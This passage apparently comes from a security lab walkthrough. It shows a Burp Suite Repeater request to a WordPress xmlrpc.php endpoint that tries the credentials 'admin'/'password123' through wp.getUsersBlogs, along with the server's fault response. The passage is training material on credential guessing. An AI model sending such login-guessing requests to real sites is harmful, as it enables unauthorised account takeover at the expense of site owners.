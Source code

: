 ```http
  </params>
</methodResponse>
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /xmlrpc.php HTTP/2
Host: cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com
Cookie: wordpress_test_cookie=WP+Cookie+check
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

<methodCall>
	<methodName>
		wp.getUsersBlogs📌
	</methodName>
	<params>
		<param>
			<value>
				admin📌
			</value>
		</param>
		<param>
			<value>
				password123📌
			</value>
		</param>
	</params>
</methodCall>
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/xml; charset=UTF-8
Date: Thu, 05 Dec 2024 15:15:36 GMT
Server: Apache/2.4.7 (Ubuntu)
Vary: Accept-Encoding
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 403

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value><int>403</int></value>
        </member>
        <member>
```